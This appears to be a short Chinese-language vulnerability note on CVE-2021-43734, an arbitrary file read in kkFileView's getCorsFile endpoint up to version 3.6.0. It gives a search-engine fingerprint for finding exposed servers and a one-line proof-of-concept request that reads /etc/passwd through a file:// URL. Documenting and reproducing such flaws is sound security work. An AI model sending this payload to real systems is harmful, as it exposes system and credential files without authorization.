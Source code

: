 # kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

```
kkFileView getCorsFile <= 3.6.0
```

## 网络测绘

```
body="kkFileView"
```

## 漏洞复现

主页面

![image-20220524172325491](images/202205241723549.png)

验证POC

```
/getCorsFile?urlPath=file:///etc/passwd 
```

![image-20220524172414993](images/202205241724070.png)